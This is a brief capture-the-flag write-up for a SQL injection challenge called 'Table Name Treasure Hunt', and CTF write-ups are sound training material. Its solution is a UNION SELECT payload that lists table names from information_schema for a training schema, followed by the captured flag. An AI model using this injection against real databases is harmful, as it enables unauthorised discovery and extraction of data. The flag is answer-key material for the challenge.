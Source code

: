 # Table Name Treasure Hunt

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/0622a009-ed50-4bd8-8ce1-ca07bf7eda35)

## Solution

`123' UNION SELECT null, null, table_name, null, null FROM information_schema.tables WHERE table_schema = 'sqlitraining';-- -`

We got the flag

![image](https://github.com/6E3372/Curtin-Malaysia-CTF-2023/assets/129729880/ac260f5e-5b47-4966-923e-90bc3f435397)

## Flag

CURTIN_CTF{#1y!n#2Y@ng}
